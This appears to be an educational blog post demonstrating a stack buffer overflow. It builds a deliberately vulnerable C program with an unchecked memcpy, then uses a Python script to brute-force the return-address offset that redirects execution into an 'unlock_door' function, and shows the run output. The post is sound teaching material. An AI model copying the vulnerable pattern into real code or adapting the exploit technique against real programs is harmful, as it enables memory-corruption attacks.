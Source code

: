 ```yaml
---
title: "Simple buffer overflow exploit"
layout: post
date: 2023-05-11 22:44
headerImage: false
tag:
- exploit
- analysis
star: true
category: blog
author: torbenfeldthusen
description: buffer overflow exploit
---
```


---
title: "simple buffer overflow exploit"
layout: post
date: 2023-05-11 22:44
headerImage: false
tag:
- exploit
- c++
- reverse engineering
star: true
category: blog
author: torbenfeldthusen
description: Reverse Engineering
---


The key to understanding exploits is the concept of the universal machine – the fact that trying to restrict what a computer can do is literally fighting against the laws of physics. Lots of money can be poured into software which sometimes only takes a couple of days to get compromised, its a Sisyphean task where the goal can only be to make it “hard enough” – as its likely that anything complex enough to be useful is vulnerable in some way.

Having said that, the classic exploit is quite avoidable but regrettably common – the buffer overflow, a specific kind of common bug which makes it possible to write over a program’s stack to take control of it’s behaviour externally. This was about as much as I knew, but I didn’t really understand the practicalities so I thought I’d write an example to play with. There are quite a lot of examples online, but a lot of them are a little confusing so I’d thought I try a simpler approach.

Here is a function called “unlock_door”, we’ll compile this into a C program and try to force it to execute even though it’s not called from the program:
```
void unlock_door() { 
  printf("DOOR UNLOCKED\n"); 
  exit(1); 
}
```
Now we need a vulnerability, this could be something completely unrelated to “unlock_door” but called in the same program – or it’s library code:

```
void vulnerable(char *incoming_data, unsigned int len) {
    char fixed_buffer[10];
    // woop! put some variable length data in 
    // a fixed size container with no checking
    memcpy(fixed_buffer,incoming_data,len);
    // print out the return pointer, helpful for debugging the hack!
    printf("return pointer is: %p\n", 
        __builtin_return_address(0));
}
```
The dodgy memcpy call copies incoming_data into fixed_buffer on the stack which is 10 bytes big. If incoming_data is bigger then it will copy outside of the reserved memory and overwrite other data on the stack. One of the other things stored on the stack is the return address value – which tells the program where the function was called from so it can go back when it’s finished. If we can set incoming_data from outside the program, then we can exploit it to redirect program flow and jump into unlock_door instead of returning properly.

We’ll make getting data into the program very simple indeed, and input it via a base16 encoded argument string converted to binary data passed to our vulnerable function in main:

```
unsigned int base16_decode(const char *hex, char **data) {
  unsigned int str_size = strlen(hex);
  *data = malloc(str_size/2); 
  for (unsigned int i=0; i<str_size; i+=2) {
    if (sscanf(&(hex[i]), "%2hhx", &((*data)[i/2])) != 1) {
      return 0;
    }
  }
  return str_size/2;
}

void main(int argc, char **argv) {
  char *data;
  unsigned int size = base16_decode(argv[1],&data);
  vulnerable(data,size);
  free(data);
  printf("normal exit, door is locked\n");
  exit(0);
}
```
This is our vulnerable C program finished. If we run it with just a few bytes of data it operates normally and prints out the current return pointer, sending it back into the main function it was called from:

```
$ ./dodgy_door_prog 0000000000
return pointer is: 0x40088c
normal exit, door is locked
```

We can now inspect it in order to figure out the exploit. The first thing we can do is run the standard bintools “nm” command on the binary which prints out the addresses of all the functions in the executable. We can search this with grep to print the address of the target function we want to call:

```
$ nm dodgy_door_prog | grep unlock_door
00000000004007fa T unlock_door
```
The smart thing to do next is to work out where the return pointer would be relative to the fixed_buffer variable and offset this address to provide a payload to send the the program – so I wrote a python program to figure it out for me:

```
import os
import string

# this is stored in memory in reverse (little endian format)
unlock_door_addr = "fa0740"

def build_payload(length):
    return "00"*length+unlock_door_addr

ret = 0
count = 0
# try increasing offsets and until we get the exit code from unlock_door
# ignore all segfaults and bus errors etc and keep retrying
while ret in [0,35584,34560,34304,33792]:
    payload=build_payload(count)
    cmd="./dodgy_door_prog "+payload
    ret = os.system(cmd);
    print cmd
    count+=1

```
the addresses are stored in memory backwards to what you’d expect as it’s little-endian memory layout (on intel and everything else these days). The script keeps adding zeros in order to offset the target address until it sits in the right bit of stack memory (you can see the return pointer gradually getting corrupted) and eventually triggers the function:


```
./dodgy_door_prog 00000000000000000000000000000000000000fa0740
return pointer is: 0x40088c
Segmentation fault (core dumped)
./dodgy_door_prog 0000000000000000000000000000000000000000fa0740
return pointer is: 0x40088c
Bus error (core dumped)
./dodgy_door_prog 000000000000000000000000000000000000000000fa0740
return pointer is: 0x40088c
Bus error (core dumped)
./dodgy_door_prog 00000000000000000000000000000000000000000000fa0740
return pointer is: 0x400840
Segmentation fault (core dumped)
./dodgy_door_prog 0000000000000000000000000000000000000000000000fa0740
return pointer is: 0x404007
Segmentation fault (core dumped)
./dodgy_door_prog 000000000000000000000000000000000000000000000000fa0740
return pointer is: 0x4007fa
DOOR UNLOCKED!
```

The successful offset is 24 bytes. Now the good news is that this is only possible on GCC if we compile with “-fno-stack-protector”, as by default for the last year or so it checks functions that allocate arrays on the stack by using a random “canary” value pushed to the stack, if the canary gets altered it stops the program before the function returns. However not all functions are checked this way as it’s slow, so it’s quite easy to circumvent for example if changed from an array to to the address of a local variable instead.

More advanced versions of this exploit also insert executable code into the stack to do things like start a shell process so you can run any commands as the program. There is also an interesting technique called “Return Oriented Programming” where you can analyse an executable to find snippets of code that end in returns (called “gadgets”) and string them together to run your own arbitrary programs. This reminds me of the recent work we’ve been doing on biological viruses, as it’s analogous to how they latch onto sections of bacterial DNA to run their own code.
    

